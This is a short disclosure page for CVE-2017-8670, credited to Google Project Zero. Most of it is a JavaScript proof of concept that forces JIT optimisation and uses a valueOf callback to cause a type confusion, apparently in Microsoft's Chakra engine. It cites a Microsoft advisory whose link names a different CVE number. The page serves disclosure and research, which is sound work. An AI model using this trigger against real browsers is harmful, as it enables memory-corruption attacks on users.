 # CVE-2017-8670

- Fix: Aug 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
'use strict';

function func(a, b, c) {
    a[0] = 1.2;
    b[0] = c;
    a[1] = 2.2;
    a[0] = 2.3023e-320;
}

function main() {
    var a = [1.1, 2.2];
    var b = new Uint32Array(0);  // <<--------- 100 -> 0

    // force to optimize
    for (var i = 0; i < 0x10000; i++)
        func(a, b, i);

    func(a, b, {valueOf: () => {
        a[0] = {};

        return 0;
    }});

    a[0].toString();
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-8548)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1290)
